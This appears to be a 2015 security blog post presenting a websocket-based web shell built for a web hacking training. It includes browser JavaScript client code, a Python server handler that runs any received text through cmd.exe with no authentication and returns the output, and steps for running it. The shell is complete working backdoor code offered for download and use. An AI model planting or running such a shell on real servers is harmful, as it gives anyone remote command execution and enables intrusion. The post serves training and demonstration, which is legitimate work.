 ```yaml
---
title: "Simple websockets based webshell"
date: 2015-02-18
categories:
- appsec
- websockets
tags:
- websocket
- shell
- xwh

thumbnailImagePosition: left
thumbnailImage: /img/simple-websockets-based-webshell/1.png
---
```


A simple client server Proof of Concept to show how websockets can be used to transfer and execute commands.

<!--more-->

## Introduction

I’m writing again after a year! It’s been an eventful one at that. Multiple conferences and two successful Xtreme Web Hacking trainings in that period.

As part of the XWH training that [Akash](https://akashm.com) and I did at nullcon 2015, I built an app to demo the functionality and usage of websockets. I went overboard and converted it into a full fledged web shell.

## Websocket Client

The client is a simple connect and send call to a websockets server:

```
function WebSocketShell()
{
    if ("WebSocket" in window)
    {
        var server = "serverip_or_hostname:9998/server"
        var ws = new WebSocket("ws://" + server);

        ws.onopen = function()
        {
            ws.send('ipconfig');
        };

        ws.onmessage = function (evt) 
        { 
            var received_msg = evt.data;
            alert(received_msg);
        };

        ws.onclose = function(a)
        { 
            alert('Error here');
        };
    }
    else
    {
        alert("WebSocket not supported by your Browser!");
    }
}
```

## Websocket Server

The websockets server is a [pywebsocket](https://github.com/google/pywebsocket) instance. The server side code is a python script that handles the incoming connection and the text.

The text is then passed to a `subprocess.Popen` call to be executed on the server. The output is collected and sent back to the client via the websocket.

```python
def web_socket_transfer_data(request):
 while True:
  line = request.ws_stream.receive_message()
  if line is None:
   return
  if isinstance(line, unicode):
   proc = subprocess.Popen('cmd.exe /c ' + line, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
   out = proc.stdout.read() + proc.stderr.read()
   request.ws_stream.send_message(out, binary=False)
  else:
   request.ws_stream.send_message('Send plain text only!', binary=True)
```

## Get it!

The code is available on [Github](https://github.com/riyazwalikar/websocketshell).

## Usage

To run the server on port 9998 (default in the code, can be changed):

1. Get [pywebsocket](https://github.com/google/pywebsocket)
2. Run `python pywebsocket\mod_pywebsocket\standalone.py -p 9998 -w ws_server`
3. Open `index.html` in any browser that supports websockets. Latest Chrome/Firefox is good enough.
4. Enter a (Windows) command like `ipconfig`
5. Hit the `Execute!` button.

Happy Hacking!

---